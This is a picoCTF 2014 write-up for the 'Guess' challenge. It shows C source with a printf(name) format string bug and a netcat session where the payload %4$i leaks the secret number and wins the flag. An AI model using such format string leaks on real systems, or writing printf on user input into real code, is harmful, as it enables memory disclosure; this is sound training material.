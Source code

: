 ```yaml
---
layout: post
title: "picoCTF 2014 Guess"
date: 2014-11-07 19:41:54 -0500
author: [swappage]
comments: true
categories: [picoctf]
---
```


### Solved by Swappage

Guess was a basic 75 points binary exploitation challenge in picoCTF 2014

![](/images/2014/pico/guess/problem.png)

<!-- more -->

The source code was available for download so it was really quick to spot the vuln:

```c
	#include <stdio.h>
	#include <stdlib.h>

	char *flag = "~~FLAG~~";

	void main(){
	    int secret, guess;
	    char name[32];
	    long seed;

	    FILE *f = fopen("/dev/urandom", "rb");
	    fread(&secret, sizeof(int), 1, f);
	    fclose(f);

	    printf("Hello! What is your name?\n");
	    fgets(name, sizeof(name), stdin);

	    printf("Welcome to the guessing game, ");
	    printf(name);
	    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

	    printf("What is your guess?\n");
	    scanf("%d", &guess);

	    if(guess == secret){
		printf("Wow! You guessed it!\n");
		printf("Your flag is: %s\n", flag);
	    }else{
		printf("Hah! I knew you wouldn't get it.\n");
	    }
	}
```

At line 19 there is a wonderful printf(name), which obviously results in a format string exploitable bug.

The program is pretty simple in its functionality, what it does is to open a file from which it reads the flag, then it generates a random number and asks you for your name.
Then it asks you to guess the number it generated.

Obviously abusing the format string bug, we can leak the informations from memory, read the number from the stack and reply with the correct answer, at which point we are returned the flag.

On my local machine using gdb could spot where the number was stored on the stack very precisely, which was at %14$i.
This didn't work on the real target most likely because the binary was compiled under a different system, but with a little of brute forcing, i could eventually work things out

	$ nc vuln2014.picoctf.com 4546
	Hello! What is your name?
	%4$i
	Welcome to the guessing game, -1715610369

	I generated a random 32-bit number.
	You have a 1 in 2^32 chance of guessing it. Good luck.
	What is your guess?
	-1715610369
	Wow! You guessed it!
	Your flag is: leak_the_seakret


